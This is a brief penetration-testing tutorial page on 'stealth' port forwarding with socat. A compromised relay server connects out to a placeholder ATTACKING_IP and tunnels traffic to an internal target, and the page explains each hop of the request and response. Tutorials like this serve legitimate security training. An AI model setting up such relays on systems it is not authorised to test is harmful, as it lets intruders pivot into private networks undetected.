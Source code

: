 # ⭕ Socat Stealth Port Forward

### **Port Forwarding - Stealth**

We can also port forward, but without opening any ports on the server!

First of all, on our own attacking machine, we issue the following command:

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised relay server we execute this command:

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

&#x20;This would create a link between port 8000 on our attacking machine, and port 80 on the intended target , meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

* The request goes to `127.0.0.1:8000`
* Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
* Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

* The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
* Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

### Close Connections

&#x20;Run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER.`
